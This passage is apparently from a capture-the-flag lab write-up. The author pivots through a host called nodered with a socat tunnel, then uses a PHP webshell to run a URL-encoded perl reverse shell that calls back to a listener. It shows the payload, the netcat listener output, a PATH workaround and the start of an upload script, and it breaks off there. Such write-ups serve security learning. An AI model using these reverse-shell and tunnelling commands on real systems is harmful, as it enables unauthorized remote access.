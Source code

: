 1.  Relay traffic through nodered back to kali
2.  Catch the callback on nodered

I'll do the first one, so in the shell on nodered, create a tunnel:



    # /tmp/s tcp-listen:223,fork tcp:10.10.14.14:223 &



That will run in the background, and forward any traffic that hits port
223 on nodered to my workstation on port 223.

#### Execution

And, like nodered, there's a limited toolset available. Luckily, `perl`
is still present (a phrase I never thought I'd say).

To get this working, it took a fair amount of playing with the url
encoding. In the end, I had success by visiting the following url in a
browser:
`http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=perl%20-e%20%27use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d2223%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27`

Sometimes, the box would get into a state where my callback would come
through, but it would return this error and die:



    root@kali# nc -lnvp 223
    listening on [any] 223 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40772
    Insecure $ENV{PATH} while running setuid at -e line 1.



I could fix this by adding
`$ENV{PATH} = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin";`
to the start of my perl command, which is the path from nodered.

#### Success

Putting it all together, I have a webshell executing a perl reverse
shell command, calling back to nodered on port 223, which forwards that
traffic to my workstation on port 223.

1.  Upload shell:

    <div>

    <div>

        root@kali# ./upload_shell.sh
        OK
        OK
        OK
        OK
        OK
